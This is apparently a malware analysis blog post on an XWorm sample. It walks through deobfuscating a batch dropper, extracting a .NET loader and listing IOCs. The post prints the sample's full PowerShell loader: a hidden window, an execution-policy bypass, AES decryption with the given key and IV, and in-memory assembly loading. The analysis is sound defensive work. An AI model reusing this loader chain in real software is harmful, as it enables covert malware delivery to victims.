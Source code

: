 ## XWorm - Batch Deobfuscation - .NET Loader

This sample starts off with some batch & PowerShell deobfuscation, revealing a .NET loader which we can debug using DnSpy and module breakpoints to reveal the payload.

SHA 256: e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f

## Initial Batch Script

This sample starts with an obfuscated batch script which looks like the following:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/15a2ff27-e269-40d7-96fc-586d9093245b)

From the fourth line onward we can see that many set commands are taking place, we also see a lot of commented-out strings which don't seem to make a lot of sense right now, denoted by the ::

Towards the end of the script, it appears that those variables are being called and executed:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/56b8f863-19b1-42db-951a-7bfcd968584e)

A quick way to make sense of this script is by commenting out the lines that clear the terminal and exit, and adding "echo" commands before the variables are called.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/be36953d-e183-4e48-9ff8-f861c071a512)

Now if we execute this new script, we get the following:

``` powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine);foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4); break; }; };$_CASH_tFaoL =
[System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '');$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL);$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged;$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC;$_CASH_pFavC.Padding =
[System.Security.Cryptography.PaddingMode]::PKCS7;$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=');$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==');$_CASH_traoF =
$_CASH_pFavC.CreateDecryptor();$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length);$_CASH_traoF.Dispose();$_CASH_pFavC.Dispose();$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg);$_CASH_DLltN = New-Object System.IO.MemoryStream;$_CASH_VzeZp = New-Object
System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress);$_CASH_VzeZp.CopyTo($_CASH_DLltN);$_CASH_VzeZp.Dispose();$_CASH_SjOoQ.Dispose();$_CASH_DLltN.Dispose();$_CASH_epUJg = $_CASH_DLltN.ToArray();$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')
($_CASH_epUJg);$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint;$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```
We can make this a bit easier to read by replacing all semi-colons with new lines:

```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
 break
 }
 }
$_CASH_tFaoL = [System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '')
$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL)
$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged
$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC
$_CASH_pFavC.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=')
$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==')
$_CASH_traoF = $_CASH_pFavC.CreateDecryptor()
$_CASH_epUJg = $_CASH_traoF.TransformFinalBlock($_CASH_epUJg, 0, $_CASH_epUJg.Length)
$_CASH_traoF.Dispose()
$_CASH_pFavC.Dispose()
$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg)
$_CASH_DLltN = New-Object System.IO.MemoryStream
$_CASH_VzeZp = New-Object System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress)
$_CASH_VzeZp.CopyTo($_CASH_DLltN)
$_CASH_VzeZp.Dispose()
$_CASH_SjOoQ.Dispose()
$_CASH_DLltN.Dispose()
$_CASH_epUJg = $_CASH_DLltN.ToArray()
$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_epUJg)
$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint
$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```

**Command Line Breakdown:**
```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe"
cd "C:\Users\mzheader\Desktop\"
```
It appears that the script is firstly copying PowerShell and moving it to the same directory & filename as the executed script, changing directory to that directory, and executing the newly copied binary of PowerShell.
```powershell
"e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $_CASH_JPyoO = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')
('C:\Users\mzheader\Desktop\e5dac6f6d2ab4c479c5c3e91064f335de141c8399bd93f8267e13f134c578c0f.bat').Split([Environment]::NewLine)
```
A command is executed, with the reversed string of "ReadAllText" and it reads the initial batch script.
```powershell
foreach ($_CASH_ealtD in $_CASH_JPyoO) { if ($_CASH_ealtD.StartsWith(':: @')) {  $_CASH_tFaoL = $_CASH_ealtD.Substring(4)
```
From the initial script, it is looking for instances that start with ":: @" and takes everything from the 4th substring onwards, ie, all the content after the "::@"
The result is being saved as variable name "_CASH_tFaoL"
```powershell
$_CASH_tFaoL = [System.Text.RegularExpressions.Regex]::Replace($_CASH_tFaoL, '_CASH_', '')
```
The contents of _CASH_tFaoL is read, and all instances of "_CASH_" are replaced with nothing.
```powershell
$_CASH_epUJg = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($_CASH_tFaoL)
```
The string is decoded from Base64.
```powershell
$_CASH_pFavC = New-Object System.Security.Cryptography.AesManaged
$_CASH_pFavC.Mode = [System.Security.Cryptography.CipherMode]::CBC
$_CASH_pFavC.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$_CASH_pFavC.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=')
$_CASH_pFavC.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('5IgM8xAuhLV8mV1KzrCEvg==')
```
The decoded text is being AES-decrypted with Key "GZ+NDDfWJdUL46CgERFNsma8kH1a1NyOqIvOPvKsrWA=" and IV "5IgM8xAuhLV8mV1KzrCEvg==".
```powershell
$_CASH_SjOoQ = New-Object System.IO.MemoryStream(, $_CASH_epUJg)
$_CASH_DLltN = New-Object System.IO.MemoryStream
$_CASH_VzeZp = New-Object System.IO.Compression.GZipStream($_CASH_SjOoQ, [IO.Compression.CompressionMode]::Decompress)
```
The decrypted text is being decompressed with gunzip.
```powershell
$_CASH_JzGOp = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($_CASH_epUJg)
$_CASH_PUHAS = $_CASH_JzGOp.EntryPoint
$_CASH_PUHAS.Invoke($null, (, [string[]] ('')))
```
The contents of which are being loaded/executed in memory.

Now that we know what the script is doing, we'll search for instances of "::@" in the initial script, perform the operations and we should be left with some form of executable code.

We see our string starting with "::@", which is a huge blob of text.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d8d60598-7491-4893-8892-2d4d563c8206)

We'll take this blob and throw it in CyberChef with the following operators to decode and decrypt the content as the script does.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d45309f5-a055-4251-b051-96766c3050b3)

We are left with an executable file.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/0b251516-6528-43ff-b54a-ced8d90e169f)

## .NET Analysis

Detect It Easy tells us that this is a .NET binary, and it has a fairly interesting entropy level, around mid-way but it remains consistent.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c6ef6c1c-b1dd-4fdc-85d8-f9a6ed669266)

Loading the executable into DnSpy we can see it is heavily obfuscated, but there are references to LoadPE. This, and the level of entropy suggests it's likely a loader and not our final payload.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/23ac0071-6c6b-4f02-b400-45a40b3ab74e)

Knowing this, we can set a module breakpoint and try to extract anything interesting that is being loaded in memory.

Head to Module Breakpoints and set a breakpoint for * (anything)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/31865716-bb47-45d9-aabb-332c2cc0f323)

Now we begin to debug the executable, taking note of all loaded modules.

As we step through, there is a very interesting module being loaded which we should interrogate further.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b8deef38-4b11-4323-9018-613beeb23bab)

We can right-click "Load Module" to decompile it in our current DnSpy session.

This module doesn't appear to be obfuscated and we can instantly see where the Settings are stored.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9e5f87ea-7e84-4d94-8ad4-16fef0a92b75)

**Settings:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9b67b4f1-e3a9-4684-9cc1-009723118aff)


IOCs:
IPv4: 65.1.224[.]214
SHA 256: E5DAC6F6D2AB4C479C5C3E91064F335DE141C8399BD93F8267E13F134C578C0F
SHA 256: EC7890D7D688DAC4EF8EF6B6E2A832280EA47BF404B851B97CDF7C709C389E65
SHA 256: CBB7FC940A1E9B3DADB1EC625554325B5DD9A95E34A05A0EC6F7206D2128DAB9








